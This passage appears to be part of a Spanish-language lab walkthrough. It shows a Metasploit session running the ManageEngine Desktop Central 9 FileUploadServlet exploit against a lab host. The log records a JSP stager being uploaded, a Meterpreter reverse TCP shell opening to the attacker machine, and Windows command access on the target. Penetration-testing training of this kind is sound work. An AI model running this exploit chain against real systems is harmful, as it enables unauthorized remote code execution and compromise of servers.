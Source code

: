 Ahora elijamos el módulo 1
```

msf6 exploit(windows/http/manageengine_connectionid_write) > info

       Name: ManageEngine Desktop Central 9 FileUploadServlet ConnectionId Vulnerability
     Module: exploit/windows/http/manageengine_connectionid_write
   Platform: Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2015-12-14
msf6 exploit(windows/http/manageengine_connectionid_write) > set rhosts 192.168.109.174
rhosts => 192.168.109.174
msf6 exploit(windows/http/manageengine_connectionid_write) > run

[*] Started reverse TCP handler on 192.168.109.132:4444 
[*] Creating JSP stager
[*] Uploading JSP stager KqNsx.jsp...
[*] Executing stager...
[*] Sending stage (175174 bytes) to 192.168.109.174
[+] Deleted ../webapps/DesktopCentral/jspf/KqNsx.jsp
[*] Meterpreter session 1 opened (192.168.109.132:4444 -> 192.168.109.174:49388) at 2022-06-24 15:45:53 -0400

meterpreter > shell
Process 6064 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ManageEngine\DesktopCentral_Server\bin>hostname
hostname
vagrant-2008R2


```
![image](https://user-images.githubusercontent.com/50930193/175657258-ba7f5fc5-a42c-4e0e-95ba-b4ef84e714e4.png)
